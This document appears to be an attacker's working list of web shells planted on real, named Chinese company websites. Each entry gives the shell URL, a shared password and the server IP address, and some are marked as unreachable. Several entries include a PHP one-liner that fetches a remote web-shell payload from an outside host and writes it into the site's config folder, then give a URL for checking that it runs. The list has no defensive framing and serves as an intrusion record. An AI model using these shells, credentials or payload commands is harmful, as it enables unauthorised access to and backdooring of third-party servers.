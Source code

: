 https://www.kingmin.cn//wapp/image/portrait/20201216/11m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://www.kingmin.cn/wapp/httpd.php
<?php file_put_contents("../content/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.kingmin.cn/content/httpd.php?d=up


http://www.juxingjituan.com/static/upload/image/20200425/11m.php |mmk123 |  47.112.240.242
代码更新：0608 ✅
http://www.juxingjituan.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.juxingjituan.com/config/httpd.php?d=up

https://instruments.uni-trend.com.cn//template/default/datetimepicker/js/locales/mr1.php |mmk123 |  47.107.53.147  | 连接不上
https://meters.uni-trend.com.cn/static/upload/other/20221221/11m.php |mmk123 |  47.107.53.147

http://www.hhkj2021.cn/runtime/data/11m.php |mmk123 |  47.104.169.49
代码更新：0608 ✅
http://www.hhkj2021.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.hhkj2021.cn/config/httpd.php?d=up

http://www.idwod.cn/assets/images/index/11m.php |mmk123 |  47.104.169.49
代码更新：0608 ✅
http://www.idwod.cn/file/httpd.php
<?php file_put_contents("../help/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.idwod.cn/help/httpd.php?d=up

http://www.huodongtoutiao.cn/static/upload/image/20230711/m11.php |mmk123 |  47.101.35.255 | 连接不上
http://ofqf.com//help/m11.php |mmk123 |  47.101.35.255
http://www.ofzs.com/help/m11.php |mmk123 |  47.101.35.255
http://www.huodongtoutiao.cn/static/upload/image/20230814/m11.php |mmk123 |  47.101.35.255

http://www.hantinghang.com/static/upload/image/20221221/m11.php |mmk123 |www.liuzhenwu.cn -> /www/wwwroot/www.liuzhenwu.cn/images/ | 47.101.35.255
代码更新：0608 ✅
http://www.hantinghang.com/data/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.hantinghang.com/config/httpd.php?d=up

http://www.hantinghang.com/static/upload/image/20221221/m11.php |mmk123 |  47.101.35.255 | 连接不上 
http://ofzs.com/help/m11.php |mmk123 |  47.101.35.255
http://aliyun.ofzj.com/help/m11.php |mmk123 |  47.101.35.255
https://hxy.gzsqykj.com/uploads/10001/20230704/11.php |mmk123 |  39.99.163.186
http://www.sdrechem.com/ruien2021.php |mmk123 |  211.149.190.167
http://zbguanlong.com/dd.php |mmk123 |  211.149.190.167
http://www.sdygsteel.com/basic.php |mmk123 |  211.149.190.167
http://www.zbyinyizhiye.com/core.php |mmk123 |  211.149.190.167
http://www.sdxlsz.com/basic.php |mmk123 |  211.149.190.167
http://www.xingfuhuanbao.com/core.php |mmk123 |  211.149.190.167

